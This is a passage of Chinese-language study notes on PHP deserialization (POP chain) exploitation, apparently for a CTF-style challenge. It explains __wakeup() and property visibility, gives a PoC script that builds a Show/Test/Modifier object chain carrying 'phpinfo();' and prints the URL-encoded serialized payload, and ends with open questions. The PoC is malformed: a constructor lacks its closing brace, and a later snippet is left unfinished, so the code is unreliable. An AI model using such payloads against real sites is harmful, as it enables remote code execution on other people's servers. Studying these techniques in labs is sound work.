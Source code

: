 ~~~
?>
~~~

这里的`__wakeup()`是因为$source的值是类实例，不是字符串，if条件不满足，所以没有执行其中赋值的代码。

这里注意，声明变量时，如果变量是public类的，可以不用写，如果是protected，private类的，必须要在poc中声明出来（如下面第三行代码那样）。

poc生成：

~~~
<?php

class Modifier {
    protected  $var;
    public function __construct() {
        $this->var = 'phpinfo();';
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='demo3.php'){
        $this->source = $file;
        $this->str = new Test();
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$b = new Show();
// $b->str = new Test();
echo urlencode(serialize(new Show($b)));
?>
~~~



问题：

1 //重要

为啥在`__wakeup()`中对属性（类变量）进行重新赋值需要想办法绕过，而在`__construct()`中对属性（类变量）重新赋值不需要绕过；在类下直接进行赋值也不需要绕过，直接通过序列化的字符串传入即可，没有被覆盖掉。



2//重要

想要调用当前类中的`__tostring()`，应该为属性（也就是被当作字符串的类）赋值为什么。如果是定义为其他的类，会跳转到其他类中寻找`__tostring()`,如果定义为当前类，则会一直循环，代码如法执行。

~~~
class Show{
    public $source;
    public $str;
    public function __construct($file='demo3.php'){
        $this->source = ;			//也就是这个source应该是什么。
        $this->str = new Test();
        echo 'Welcome to '.$this->source."<br>";
~~~
